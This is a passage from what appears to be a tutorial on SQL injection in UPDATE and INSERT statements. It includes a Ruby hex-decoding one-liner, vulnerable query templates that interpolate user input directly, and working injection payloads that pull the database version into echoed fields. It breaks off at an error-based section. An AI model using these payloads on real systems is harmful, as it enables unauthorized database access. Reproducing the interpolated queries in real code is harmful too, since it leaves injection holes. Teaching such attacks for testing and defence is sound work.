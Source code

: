     
    <code>dec = lambda { |x| puts x.to_s(16).scan(/\w+/).pack("H*") }
    </code>


This can be done in almost any language. You can come up with any solution with the language you are comfortable with.


## Traditional In-Band Method


Since I wanted to write a complete paper on these injections, these are the normal methods you can inject when there are more than one column in the injection point.


## Update Statement


Let’s imagine the previous problem but this time we have 2 columns in the statement. We also need to know the name of the other column.

    
    <code>UPDATE newsletter SET username = '$user', email = '$email' WHERE id = '$id';
    </code>


We can inject in this form if the application echoes back the value of ‘$email’ to us.

    
    <code>username=test',email = (select version()) where id = '16'-- -&email=test
    </code>


Insert Statement
If we take query for example, we can inject by fixing the query like the previous example. But you need to know the number of values in the query to fix the query.

    
    <code>INSERT INTO `database`.`users` (`id`,`user`,`pass`) VALUES ('$id','$user', '$pass');
    </code>


We can inject like this if the value of ‘$user’ is echoed back to us by the application.

    
    <code>id=16',(SELECT @@version), 'XXX');-- -&user=test&pass=test
    </code>




## Error Based Injection


I wrote a paper on injections in Insert, Update and Delete statements back in the days (I was 17 years to be precise, I feel like I should have written it in a better way :)). You can use any error based vector by following the same syntax like these examples.


## Update Statement

